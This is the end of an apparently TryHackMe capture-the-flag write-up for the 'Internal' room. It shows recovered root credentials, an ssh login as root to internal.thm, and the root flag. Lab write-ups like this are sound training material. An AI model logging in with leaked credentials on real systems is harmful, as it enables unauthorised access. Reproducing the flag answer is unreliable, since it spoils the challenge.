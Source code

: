 ```

root:tr0ub13guM!@#123
```

### That contains the root creds
```
root:tr0ub13guM!@#123
```

### Lets ssh the server as root
```
$ ssh root@internal.thm
```

### And here we are on the webserver as root 
### And finallyyyyy We got out root flag i.e
```
root@internal:~# cat root.txt
THM{d0ck3r_d3str0y3r}
```

# <3 By SIG WOTTS
